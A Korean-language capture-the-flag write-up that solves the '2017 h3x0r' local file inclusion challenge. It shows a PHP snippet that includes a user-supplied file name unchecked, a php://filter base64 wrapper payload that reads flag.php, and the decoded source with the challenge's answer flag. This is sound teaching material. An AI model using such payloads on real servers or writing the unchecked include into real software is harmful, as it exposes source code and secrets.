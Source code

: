 # 2017 h3x0r WEB - LFI

## Key words

- Local File Inclusion (LFI)
- PHP Wrapper

## Solution

문제에 접속하면 `Shell Command`를 입력하라고 뜨지만 실제로는 `Command Injection`이 되는것은 아니고 `ls`만 가능하며 나타나는 목록은 다음과 같습니다.

- flag.php
- aoba.php
- sagiri.php

그리고 사용자에게 파일명을 입력 받을 수 있는 `Input box`가 하나 생성됩니다.

```html
<form action='./chall.php' method='get'>
  input file name : <input type='text' name='file'>
</form>
```

`chall.php`에 `$_GET['file']`로 파일명을 넘겨 주는 것 같습니다.

하지만 실제로는 잘 동작하지 않고, 조금 테스트를 하다가 내린 결론은 다음과 같습니다.

- 문제명이 `LFI`
- `aoba.php`를 넣었을 경우 `base64`에 대해 아는지 물어 보는 텍스트

결론적으로 `php wrapper`를 이용한 문제 입니다.

`LFI`가 발생되는 기본저인 PHP 코드는 다음과 같습니다.

```php
<?php
$file_name = $_GET['file'];
include("pages/$file_name");
?>
```

따라서 `$_GET['file']`에 PHP 래퍼를 넣어 `flag.php`를 읽는 쿼리는 같습니다.

> chall.php?file=php://filter/convert.base64-encode/resource=flag.php

다음과 같이 쿼리를 전송하게 되면 페이지에 flag.php에 대한 내용이 `base64` 형태로 뜨게 되고 이를 디코딩 하게 되면 정답이 나오게 됩니다.

> PD9waHAKICAgIGVjaG8gIlVzZSBMRkkhIjsKICAgICRmbGFnID0gIkgzWDBSe2EwYmFfYzB0ZV9hZG0xdD99IjsK

```
<?php
    echo "Use LFI!";
    $flag = "H3X0R{a0ba_c0te_adm1t?}";
```
